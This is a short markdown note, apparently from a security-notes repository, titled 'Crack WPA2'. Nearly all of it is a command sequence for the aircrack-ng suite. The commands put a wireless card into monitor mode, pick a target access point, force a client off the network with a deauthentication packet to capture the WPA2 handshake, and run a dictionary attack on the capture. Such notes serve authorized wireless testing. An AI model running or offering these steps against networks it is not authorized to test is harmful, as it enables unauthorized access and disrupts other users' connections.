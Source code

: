 # Crack WPA2

A basic way to crack WPA2 key.

:warning: low success rate.

## Aircrack-ng

[Aircrack-ng](https://www.aircrack-ng.org/) is a complete suite of tools to assess WiFi network security.

```bash
# start wifi monitor mode

airmon-ng start $IFACE

# run airodump-ng and note target bssid and channel

airodump-ng

# start wifi monitor mode on targets channel

airmon-ng start $IFACE $CHANNEL

# capture handshake; send deauth

airodump-ng -c $CHANNEL --bssid $BSSID -w psk $IFACE

aireplay-ng -0 1 -a $BSSID -c $CLIENT $IFACE

# dictionary attack on .cap

aircrack-ng -w password.lst -b $BSSID psk*.cap
```